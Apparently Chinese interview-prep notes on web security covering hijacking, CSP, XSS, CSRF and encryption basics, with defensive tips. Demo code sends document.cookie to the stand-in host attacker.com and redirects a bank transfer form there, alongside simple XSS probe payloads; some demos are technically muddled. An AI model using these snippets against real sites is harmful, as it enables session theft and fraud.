 
# HTTP 劫持、DNS 劫持与 XSS

- http 劫持是指攻击者在客户端和服务器之间同时建立了连接通道，通过某种方式，让客户端请求发送到自己的服务器，然后自己就拥有了控制响应内容的能力，从而给客户端展示错误的信息，比如在页面中加入一些广告内容。
- DNS 劫持是指攻击者劫持了 DNS 服务器，获得了修改 DNS 解析记录的权限，从而导致客户端请求的域名被解析到了错误的 IP 地址，攻击者通过这种方式窃取用户资料或破坏原有正常服务。
- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。
- 要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行HTML实体编码。

# 什么是 CSP？
CSP（Content-Security-Policy）指的是内容安全策略，它的本质是建立一个白名单，告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦
截由浏览器自己来实现。

通常有两种方式来开启 CSP
- 一种是设置 HTTP 首部中的Content-Security-Policy
  
- 一种是设置 meta 标签的方式
   <meta http-equiv="Content-Security-Policy">
   
CSP 也是解决 XSS 攻击的一个强力手段

# xss和csrf 攻击


## XSS：Cross-site Scripting

- XSS 是指跨站脚本攻击。攻击者利用站点的漏洞，在表单提交时，在表单内容中加入一些恶意脚本，当其他正常用户浏览页面，而页面中刚好出现攻击者的恶意脚本时，脚本被执行，从而使得页面遭到破坏，或者用户信息被窃取。

- 攻击者对客户端网页注入的恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。有很多种方式进行 XSS 攻击，但它们的共同点为：将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作。


- 要防范 XSS 攻击，需要在服务器端过滤脚本代码，将一些危险的元素和属性去掉或对元素进行HTML实体编码。

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>XSS Attack Demo</title>
</head>
<body>
  <h1>XSS Attack Demo</h1>
  <div id="content"></div>
  <script src="payload.js"></script>
</body>
</html>


// payload.js
const maliciousScript = `
  const xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://attacker.com/steal-cookie?cookie=' + document.cookie, true);
  xhr.send();
`;

document.getElementById('content').innerHTML = maliciousScript;

```
在上述示例中，恶意脚本payload.js被注入到页面中。该脚本通过XMLHttpRequest发送GET请求，将页面中的Cookie信息发送给攻击者控制的服务器。


### XSS攻击可以分为3类：反射型（非持久型）、存储型（持久型）、基于DOM。


- 1、反射型 （Reflected XSS ） 发出请求时，XSS代码出现在url中，作为输入提交到服务器端，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS代码。这个过程像一次反射，所以叫反射型XSS。

假设有一个搜索页面，用户的搜索词通过URL参数传递，如 https://example.com/search?q=keyword。
如果服务器将用户输入的搜索词直接反射在页面上，攻击者可以通过构造恶意的URL来实施攻击。例如：

```php
https://example.com/search?q=<script>alert('XSS')</script>
```

如果这个URL被访问，服务器将 <script>alert('XSS')</script> 直接嵌入到HTML中，从而弹出一个警告框。



- 2、存储型存  Stored XSS和 Reflected XSS的差别就在于，具有攻击性的脚本被保存到了服务器端（数据库，内存，文件系统）并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

在一个论坛应用中，用户可以提交评论。如果应用没有正确地清理用户提交的数据，攻击者可以提交包含恶意脚本的评论。例如，攻击者可能会提交以下评论：

```javascript
<script>alert('XSS')</script>
```

该脚本存储在服务器上，并且每当任何用户浏览包含该评论的页面时，脚本都会被执行，导致XSS攻击。


- 3、DOM型 （DOM-based or local XSS） 即基于DOM或本地的 XSS 攻击：其实是一种特殊类型的反射型 XSS，它是基于 DOM文档对象模型的一种漏洞。可以通过 DOM来动态修改页面内容，从客户端获取 DOM中的数据并在本地执行。基于这个特性，就可以利用 JS脚本来实现 XSS漏洞的利用。

考虑一个网页，其中包含以下JavaScript代码：

```javascript
document.getElementById('output').innerHTML = location.hash.substring(1);
```

如果一个用户访问如下URL：

```javascript
https://example.com/#<img src=x onerror=alert('XSS')>
```

此代码片段会将 URL 的哈希部分（<img src=x onerror=alert('XSS')>）直接设置为页面元素的 innerHTML，从而执行恶意代码。



### 防范手段：
1. 输入过滤
2. 输出过滤
3. 加 httponly 请求头  锁死cookie (浏览器将禁止页面的Javascript 访问带有 HttpOnly 属性的Cookie)

## CSRF：Cross-site request forgery 

跨站请求伪造

```javascript
1.  用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2.  在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3.  用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4.  网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5.  浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。 
```

```javascript
<!-- index.html -->
<!DOCTYPE html>
<html>
<head>
  <title>CSRF Attack Demo</title>
</head>
<body>
  <h1>CSRF Attack Demo</h1>
  <form id="transfer-form" action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="submit" value="Transfer">
  </form>
  <script src="payload.js"></script>
</body>
</html>

// payload.js
const maliciousScript = `
  const form = document.getElementById('transfer-form');
  form.action = 'http://attacker.com/steal-data';
  form.submit();`;

eval(maliciousScript);
```
在上述示例中，恶意脚本payload.js被执行。该脚本修改了表单transfer-form的目标地址为攻击者控制的服务器，并提交表单。当用户点击"Transfer"按钮时，实际上会向攻击者服务器发送用户的敏感数据。


防御 CSRF 攻击有多种手段：

- 不使用 `cookie`
- 为表单添加校验的 `token` 校验
- cookie中使用 `sameSite`字段
- 服务器检查 `referer` 字段 (记录了该 HTTP 请求的来源地)



# 身份验证过程中会涉及到密钥，对称加密，非对称加密，摘要的概念，请解释一下

- 密钥

密钥是一种参数，它是在明文转换为密文或将密文转换为明文的算法中输入的参数。密钥分为`对称密钥`与`非对称密钥`，分别应用在`对称加密`和`非对称加密上`。

- 对称加密

对称加密又叫做`私钥加密`，即信息的发送方和接收方使用同一个密钥去加密和解密数据。对称加密的特点是算法公开、加密和解密速度快，适合于对大数据量进行加密，常见的对称加密算法有 DES、3DES、TDEA、Blowfish、RC5 和 IDEA。

- 非对称加密

非对称加密也叫做`公钥加密`。非对称加密与对称加密相比，其安全性更好。对称加密的通信双方使用相同的密钥，如果一方的密钥遭泄露，那么整个通信就会被破解。而非对称加密使用一对密钥，即公钥和私钥，且二者成对出现。私钥被自己保存，不能对外泄露。公钥指的是公共的密钥，任何人都可以获得该密钥。用公钥或私钥中的任何一个进行加密，用另一个进行解密。

- 摘要

摘要算法又称哈希/散列算法。它通过一个函数，把任意长度的数据转换为一个长度固定的数据串（通常用 16 进制的字符串表示）。算法不可逆。


# 什么时候用的对称加密什么时候非对称加密

建立通信阶段使用非对称性加密，建立完毕后使用对称性加密进行传输



